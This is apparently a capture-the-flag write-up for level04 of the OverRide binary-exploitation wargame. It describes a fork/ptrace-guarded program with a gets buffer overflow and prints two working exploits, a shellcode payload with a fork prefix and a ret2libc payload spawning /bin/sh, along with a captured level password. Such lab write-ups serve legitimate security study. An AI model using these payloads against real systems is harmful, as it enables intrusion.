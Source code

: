 # level04
## Program behaviour

1. Call `fork`
2. If child, run a vunerable `gets`
3. If father, `kill` child if attempting to `syscall execve`

## Vulnerability

The son allows uses gets, which is vunerable to buffer-overflow attacks.
The father only prevents `execve` from his direct son.

## Exploitation

Both methods use son's `gets` for a buffer-overflow and `fork` to bypass father's `ptrace`.

### Method 1: prepend `fork` to shellcode

1. Assemble the following `asm`
    - result is `"\x6a\x02\x58\xcd\x80"`
```asm
push 0x2 ; syscall code for fork
pop $eax ; place in register $eax
int 0x80 ; syscall
```

2. Run the exploit with `"\x6a\x02\x58\xcd\x80"` + shellcode as payload
```sh
level04@OverRide:~$ (python -c 'print "\x90" * 106 + "\x6a\x02\x58\xcd\x80" + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" + "\x80\xd6\xff\xff"'; cat) | ~/level04
Give me some shellcode, k
no exec() for you
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```

### Method 2: Ret to libc

1. Search for the right addresses
```gdb
(gdb) print system
$7 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) find 0xf7e6aed0, +99999999, "/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
```

2. Run the exploit with `system("/bin/sh")` as payload
```sh
level04@OverRide:~$ (python -c 'print "a" * 156 + "\xd0\xae\xe6\xf7" + "DUDE" + "\xec\x97\xf8\xf7"'; cat) | ~/level04             
Give me some shellcode, k
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```